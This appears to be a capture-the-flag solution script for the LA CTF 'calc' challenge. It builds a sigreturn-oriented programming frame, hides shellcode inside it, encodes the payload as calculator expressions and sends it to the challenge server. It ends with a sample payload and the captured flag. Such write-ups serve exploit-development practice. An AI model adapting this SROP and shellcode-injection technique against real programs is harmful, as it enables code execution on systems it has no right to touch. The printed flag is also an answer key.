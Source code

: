 ```py
frame.rip       = 0x31337151                        # RIP to the beginning of the my shellcode . hardcoded after tries
frame.rdi       = 0x1                               # STDOUT  
frame.rdx       = 0x10                              # write SYSCALL len . doesn't really matter how much
frame.rsi       = 0x7ff000000000                    # start address to find from . seemed reasonable . but might not work all the time
frame.rbx       = u64(b"flag.txt")                  # the flag so that we can push it in our shellcode
frame.csgsfs    = 0x33

frame   = bytes(frame)[:-2*8]                       # we don't need the whole frame and it's fine bcs we only care about $cs=0x33 . the rest are clobber-able

payload = b''
payload+= mul(constants.SYS_rt_sigreturn,1)         # this mul will set $rax to SYS_rt_sigreturn*1 for us 

for i in range(len(frame),0,-8):                    # we have to put it inverted on the stack
    payload += ONUM(u64(frame[i-8:i]))


start_idx   = payload.index(b'(0);'*(len(shellcode)//8))    # search for a cave in the frame to put the shellcode at
end_idx     = start_idx + (4*(len(shellcode)//8))           # the end of the cave

payload_tmp = payload[:start_idx]                           # hollow out the frame

for i in range(0,len(shellcode),8):                         # insert the shellcode
    payload_tmp += ONUM(u64(shellcode[i:i+8]))

payload_tmp+= payload[end_idx:]                             # add in the end part of the frame
payload     = payload_tmp 

if args.REMOTE:
    p = remote('chall.lac.tf',31169)
    proof_of_work()
elif args.DOCKER:
    p = remote('127.0.0.1',5000)
    proof_of_work()
else:
    p = process('./calc',level='CRITICAL')

p.sendline(payload)
print(p.recvall())

# payload
# 15*1;(0);(0);(0);(0);(0);(51);(0);(825454929);(131072);(0);(1);(16);(8392585648256674918);(0);(140668768878592);(1);(282478349818839089);(282477753056756040);(282570622884152136);(282477742873938248);(282478788704665706);(282477753056856392);(282390538415622025);(282478556786100552);(282477738684581135);(282477738578053448);(10416831501176066609);(0);(0);


# lactf{y3t_4n0th3R_conTr1v3d_ch4lLeNg3!!}
```